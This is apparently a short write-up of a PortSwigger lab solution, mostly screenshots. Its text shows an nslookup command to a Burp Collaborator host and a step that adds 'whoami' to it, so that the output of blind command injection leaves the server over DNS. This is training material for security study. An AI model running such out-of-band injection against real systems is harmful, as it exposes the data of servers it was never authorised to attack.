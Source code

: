 ## Lab Description:

<img width="861" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a0baaad4-1967-4f58-a254-b14834381ab1">

## Solution:

Same process as above but add this payload

<img width="1419" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/20020a8b-b517-43e6-af70-d0cfb17e1cac">

server - h3lqoedkw79dkovdcoyml01b026tuji8.oastify.com

$ nslookup h3lqoedkw79dkovdcoyml01b026tuji8.oastify.com #

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/6753ba93-f97d-4557-bf86-d3cd99684a2e">


After encode 

<img width="1430" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0c708051-8780-4349-a6bc-d1330c250806">

Now, We need to add 'whoami' in nslookup command

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/f2f5d73a-330c-4b6d-b180-46898bd84a2d">

After Encode

<img width="1438" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/d2181be7-e1f3-408a-8986-6fc752126188">


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/eb202804-f8df-4109-a249-74b4cc586522">

## Result:

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/e1bf15d0-6d9e-49c1-93a8-b7794fb545b8">
